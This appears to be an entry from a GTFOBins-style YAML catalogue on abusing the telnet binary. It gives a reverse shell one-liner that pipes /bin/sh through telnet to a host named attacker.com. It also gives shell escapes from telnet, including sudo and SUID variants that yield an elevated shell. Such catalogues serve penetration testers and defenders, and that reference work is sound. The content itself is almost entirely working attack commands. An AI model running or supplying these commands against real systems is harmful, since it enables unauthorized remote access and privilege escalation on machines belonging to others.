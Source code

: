 ```yaml
---
functions:
  execute-interactive:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF
  sudo-enabled:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  suid-limited:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh

---
```

